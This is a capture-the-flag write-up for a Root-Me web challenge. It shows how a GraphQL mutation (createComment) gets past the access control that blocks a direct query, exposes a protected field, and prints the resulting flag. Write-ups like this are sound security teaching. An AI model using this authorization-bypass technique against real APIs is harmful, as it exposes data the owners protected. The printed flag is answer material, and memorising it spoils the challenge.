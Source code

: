# [GraphQL - Mutation](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

## Statement

Find the admin's little secret.

## Analysis

1. use GraphQL Playground to introspect graphql endpoint => flag location:

    ![flag-location.jpg](./image/GraphQL%20-%20Mutation%201.png)

2. direct query to flag:

    ```graphql
    {
      nude {
        id
        flag
      }
    }
    ```

    response:

    ```json
    {"errors":[{"message":"You cannot access my nude !!!","locations":[{"line":3,"column":11}],"path":["nude"],"extensions":{"code":"INTERNAL_SERVER_ERROR"}}],"data":{"nude":null}}
    ```

## Exploit

1. found a mutation that contains `nude`:

    ![mutation.jpg](./image/GraphQL%20-%20Mutation%202.png)

2. get flag:

    ```graphql
    {"variables":{"userId":1,"postId":1,"nudeId":2,"comment":"test"},"query":"mutation CreateComment($userId: Int, $postId: Int, $nudeId: Int, $comment: String!)\n        {\n          createComment(userId: $userId, postId: $postId, nudeId: $nudeId, comment: $comment) {\r\n\t\t\t\t\t\tnude { flag }\r\n\t\t\t\t\t}\n        }\n      "}
    ```

    - variables:

      ```json
      {"userId":1,"postId":1,"nudeId":2,"comment":"test"}
      ```

    - query:

      ```graphql
      mutation CreateComment($userId: Int, $postId: Int, $nudeId: Int, $comment: String!)
              {
                createComment(userId: $userId, postId: $postId, nudeId: $nudeId, comment: $comment) {
            nude { flag }
          }
              }
      ```

    response:

    ```json
    {"data":{"createComment":{"nude":[{"flag":"GraphQLDoesNeedAccessControl!!!!!!"}]}}}
    ```

